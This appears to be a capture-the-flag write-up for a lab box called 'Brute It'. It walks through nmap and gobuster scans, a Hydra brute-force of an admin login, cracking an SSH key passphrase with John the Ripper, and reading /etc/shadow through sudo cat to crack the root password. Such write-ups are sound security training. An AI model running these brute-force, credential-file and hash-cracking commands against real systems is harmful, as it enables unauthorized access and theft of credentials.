 Task 1. About this box.
 - Brute-Force
 - Hash cracking
 - Privilege Escalation

step 1. Deploy Machine.
Start Machine. This completed Task 1.

Task 2. Reconnaissance

Nmap Port/Version Scan
Running nmap -sV -oN BruteItnmapScan 10.10.143.205 displayed the following information.

This target has 2 ports open. Answer to first question.
The version of SSH is OpenSSH 7.6p1. Answer to second question.
The version of Apache is 2.4.29. Answer to third question.
The Linux distribution is Ubuntu. Answer to fourth question.

Gobuster Directory Scan
Running gobuster dir -u http://10.10.143.205 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o BruteItGobusterScan displays that the answer to the last question, what is the hidden directory is 
/admin.

Navigating to http://10.10.143.205/admin shows a login page. I viewed the page source and saw a comment at the bottom of the HTML.     
<!-- Hey john, if you do not remember, the username is admin -->

I tried to brute force in with simple password attempts. admin:password, admin:password123, admin:admin. None worked.

Let's us Hydra and speed this up. 

Firefox and Chrome have a Network Console to pull out the Request needed for Hyrda. Also on the page, the words "Username or password invalid" will be needed so Hyrda knows that the password attempt was incorrect and to try the next.

Running hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.143.205 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"

This gave us the password xavier. We can now login.

Task 3 Getting a shell.

Question 1 What is the user:password of the admin panel?
admin:xavier

Question 2 What is 
Crack the RSA key you found.
What is John's RSA Private Key passphrase?

Let's us John the Ripper to find out so we can SSH into the machine.
First we have to convert the RSA key into something John will understand.
/usr/share/john/ssh2john.py id_rsa > sshhash will give John a hash that it can understand.

Now we can run john --wordlist=/usr/share/wordlists/rockyou.txt sshhash and after a few seconds, we have the password rockinroll

SSH is now possible. 

Running 
ssh -i id_rsa john@10.10.143.205 will prompt a password. Entering rockinroll will get us in and we can cat the user.txt to get the flag.

The first thing to check is what sudo abilities does John have. John can use cat as sudo. Let's check gtfobins and see what we can exploit. 
https://gtfobins.github.io/gtfobins/cat/#sudo
gtfobins gives us a way to read the /etc/shadow file and similar to how we got John's password with John (ironic) we can do the same to the root password.

As John, running 
LFILE=/etc/shadow and then sudo cat "$LFILE"
gives the output of the shadow file and with that, the hash for the root password.
Using John again
john --wordlist=/usr/share/wordlists/rockyou.txt roothash
gives the password football.

We can now su - and when prompted give the password football and we are now root and can get the root flag.

This concludes the write up.
